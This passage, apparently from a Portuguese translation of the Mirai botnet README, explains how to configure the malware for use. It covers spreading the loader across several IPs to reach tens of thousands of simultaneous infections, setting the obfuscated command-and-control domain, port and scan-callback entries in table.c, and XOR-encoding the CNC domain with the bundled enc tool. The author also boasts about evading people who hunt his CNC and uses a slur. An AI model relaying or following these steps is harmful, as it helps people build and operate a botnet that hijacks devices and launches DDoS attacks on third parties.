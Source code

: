 O loader pode ser configurado para usar múltiplos endereços IP para bypassar a exaustão de porta do linux (existe um limite do número de portas disponíveis, o que significa que não tem o suficiente para uma variação na tupla para ter mais do que 65k de saídas externas - em teoría, esse valor é muito menor na prática). Eu tenho por volta de 60k-70k de conexões simultâneas externas (carregamento simultâneo) espalhado por 5 IPs.



# configurando o bot

O bot tem diversas opções de configurações que são obfuscadas em `table.c/table.h`.
Em [`./mirai/bot/table.h`](mirai/bot/table.h) nós podemos achar a maioria das descrições para
as opções de configurações. Entretanto, em [`./mirai/bot/table.c`](mirai/bot/table.c)
existem algumas opções que você *precisa* mudar para continuar funcionando.


* `TABLE_CNC_DOMAIN` - Domain name do CNC para conecta para - evitador de DDoS bem divertido com a mirai
  Domain name of CNC to connect to - DDoS avoidance é muito divertido com mirai, as pessoas tentão se
  conectar com meu CNC mas eu atualizo mais rápido do que eles conseguem achar meu novo endereço de IPs, 
  lol. Retardados :)
* `TABLE_CNC_PORT` - Porta para conectar para, já definida na 23
* `TABLE_SCAN_CB_DOMAIN` - Quando encontra resultados brutos, esse domínio é reportado para
* `TABLE_SCAN_CB_PORT` - Porta para conectar para por resultados brutos, já está configurada para
  `48101`.

Em [`./mirai/tools`](mirai/tools) você irá encontrar algo chamado enc.c - você
deve compilar ele para ter saída de coisas para colocar no arquivo table.c

Rode isso dentro do diretório da mirai

    ./build.sh debug telnet

Você terá alguns erros relacionados ao cross-compile não estar lá se você não os tiver configurado.
Isso é ok, não afetará a compilação da ferramenta enc

Agora, na pasta `./mirai/debug` você deve ver um binário compilado chamaco enc.
Por exemplo, para obfuscar uma string para o nome de domínip para os bots se conectarem, use isso:


    ./debug/enc string fuck.the.police.com

A saída deve ser algo como:

    XOR'ing 20 bytes of data...
    \x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22

Para atualizar o valor de `TABLE_CNC_DOMAIN` por exemplo, subtitua por uma string long hex
com a ferramenta enc. Também, você verá `XOR'ing 20 bytes of data`.
Esse valor deve ser trocado pelo último argumento. Como exemplo, a linha table.c
originalmente se parece assim


    add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com

Agora que nós conhecemos o valor da ferramenta enc, nos iremos atualizar como
